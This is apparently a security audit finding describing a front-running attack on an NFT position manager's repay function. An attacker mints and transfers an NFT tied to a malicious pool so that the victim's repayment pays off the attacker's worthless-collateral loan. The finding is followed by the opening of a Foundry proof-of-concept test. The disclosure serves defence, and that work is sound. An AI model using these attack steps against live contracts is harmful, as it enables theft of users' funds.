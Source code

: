 1. Alice mints a NFT with `id = 1`, she supplies collateral and borrows `1e18 tokenA`.
2. Alice observes that the last NFT in `NFTPositionManager` is her NFT (the NFT with `id = 1`), so she calls `repay` with `params.tokenId = 0`.
3. The attacker front-run Alice's repay transaction with:
   - Creating a malicious pool that has `tokenA` and a worthless token `attackerToken`.
   - Supplying `1e18 tokenA` directly to the malicious pool.
   - Minting a NFT with `id = 2`, which linked to the malicious pool.
   - Using the NFT with `id = 2` to supply `attackerToken` as collateral, and then borrow `1e18 tokenA`.
   - Tranfering the NFT with `id = 2` to Alice.
4. Alice's repay transaction is executed. She repaid to the NFT with `id = 2` not the NFT with `id = 1`.
5. The attacker withdraws `1e18 tokenA` from the malicious pool and benefits `1e18 tokenA` from Alice.

### Impact

The attacker forced the user to interact with a malicious pool. In case of the `repay` function, the attacker stole all the funds that should be paid to the loan from the user.

### PoC
Run command: `forge test --match-path test/PoC/PoC.t.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {DataTypes} from 'contracts/core/pool/configuration/DataTypes.sol';
import {IPool} from 'contracts/interfaces/pool/IPool.sol';
import {INFTPositionManager} from 'contracts/interfaces/INFTPositionManager.sol';

import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
import {ERC20} from '@openzeppelin/contracts/token/ERC20/ERC20.sol';

import {Test, console} from '../../lib/forge-std/src/Test.sol';
import {DeployNFTPositionManager} from 'test/forge/core/positions/DeployNFTPositionManager.t.sol';

contract AttackerToken is ERC20 {
    constructor() ERC20('XYZ', 'XYZ') {
        _mint(msg.sender, 100 ether);
    }
}

contract PoC is DeployNFTPositionManager {
    address alice = makeAddr('alice');
    address attacker = makeAddr('attacker');

    IPool attackerPool;
    IERC20 attackerToken;

    function setUp() public {
        _setUpPool();
        _setup();

        // The attacker created a malicious pool `attackerPool`
        _setupAttackerPool();
    }

    function _setupAttackerPool() internal {
        address[] memory assets = new address[](2);
        assets[0] = address(tokenA);
        // The attacker created a malicious token `attackerToken`
        vm.prank(attacker);
        attackerToken = new AttackerToken();
```